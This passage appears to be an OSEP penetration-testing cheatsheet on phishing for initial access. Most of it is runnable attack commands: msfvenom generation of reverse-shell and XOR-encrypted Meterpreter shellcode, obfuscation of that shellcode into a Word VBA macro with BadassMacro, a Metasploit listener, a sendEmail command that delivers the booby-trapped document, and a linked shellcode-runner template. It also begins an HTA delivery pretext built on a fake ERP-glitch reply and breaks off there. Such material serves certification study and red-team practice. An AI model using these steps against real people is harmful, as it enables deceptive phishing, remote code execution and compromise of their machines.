 # OSEP Cheatsheet 

---


## Initial Access — Phishing

### Office VBA Macro (x86)

> **Scenario**: Send a Word CV with an obfuscated VBA macro. On enable, shellcode executes and beacons back.

**Method A — BadAssMacro**

```bash
# Generate shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=8090 EXITFUNC=thread -f raw -o shellcode.bin

# Produce obfuscated VBA (BadAssMacro)
BadassMacrox86.exe -i shellcode.bin -s indirect -p no -w doc -o output.txt

# Start listener
sudo msfconsole -q -x "use multi/handler; set payload windows/shell_reverse_tcp; set lhost tun0; set lport 8090; exploit"

# Send email with attachment (example)
sendEmail -f bob@xyz.com -t alice@xyz.com -u "Reports" -m "My Reports" -a Final.doc -s <HTTP_HOST> -v
```

**Method B — VBA Shellcode Runner**

Runner template: [shellcodeRunner.vba](https://raw.githubusercontent.com/Extravenger/OSEPlayground/refs/heads/main/02%20-%20Macros/shellcodeRunner.vba)

```bash
# Example: XOR‑encrypted Meterpreter shellcode inline for VBA
msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread \
  -f vbapplication --encrypt xor --encrypt-key a
```

In VBA, size the buffer larger than the shellcode:

```vb
Dim buf(X) As Byte
```

---

### HTA Delivery

> **Scenario**: A user reports an ERP glitch; you reply with a link to an **HTA** that pulls and runs staged components.

**0) Files & Artifacts**

